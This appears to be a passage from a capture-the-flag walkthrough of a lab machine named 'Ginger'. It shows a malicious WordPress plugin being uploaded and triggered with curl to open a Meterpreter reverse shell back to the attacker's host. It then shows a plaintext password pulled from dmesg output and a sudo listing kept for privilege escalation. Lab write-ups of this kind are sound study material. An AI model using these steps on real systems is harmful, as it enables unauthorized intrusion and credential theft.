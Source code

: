
After running the command the zip file **'malicious.zip'** is created which we can upload to the remote server.  
After uploading the plugin we access and get a reverse shell on the machine by going to **'http://10.0.0.26/wordpress/wp-content/plugins/malicious/wetw0rk_maybe.php'**.

    Local Host:

    root@kali ~/D/M/Ginger# curl http://10.0.0.26/wordpress/wp-content/plugins/malicious/wetw0rk_maybe.php

    Reverse TCP handler on 10.0.0.27:4444:

    [*] Meterpreter session 1 opened (10.0.0.27:4444 -> 10.0.0.26:49724 ) at 2022-09-02 10:31:20 -0400
    meterpreter > shell
    whoami
    www-data

# 3. *Privilege Escalation*

Let's find out what permission the **'www-data'** user has on the remote machine and how we can move laterally and vertically through the machine.

Going to the **'/home'** directory we can see there are 3 users on the remote machine.

    www-data@ginger:/home$ ls -l
    total 12
    drwxr-xr-- 5 caroline  webmaster 4096 May 25  2021 caroline
    drwxr-xr-x 4 sabrina   sabrina   4096 May 25  2021 sabrina
    drwx------ 4 webmaster webmaster 4096 May 25  2021 webmaster

Going to the **'sabrina'** directory we have 2 files.

    www-data@ginger:/home/sabrina$ ls
    limage.jpg  password.txt

    www-data@ginger:/home/sabrina$ cat password.txt
    I forgot my password again...
    I wrote it down somewhere in this form: sabrina:password
    but I don't know where... I have to search in my memory

Using the **'dmesg'** command we can see the password.

    www-data@ginger:/home/sabrina$ dmesg | grep sabrina
    dmesg | grep sabrina
    [   25.010420] sabrina:dontforgetyourpasswordbitch

After logging in as the user **'sabrina'**, let's see what sudo permissions he is.

    sabrina@ginger:~$ sudo -ll
    Matching Defaults entries for sabrina on ginger:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User sabrina may run the following commands on ginger:

    Sudoers entry:
        RunAsUsers: webmaster
        Options: !authenticate
        Commands:
            /usr/bin/python /opt/app.py *


[1]: "https://www.exploit-db.com/exploits/37560"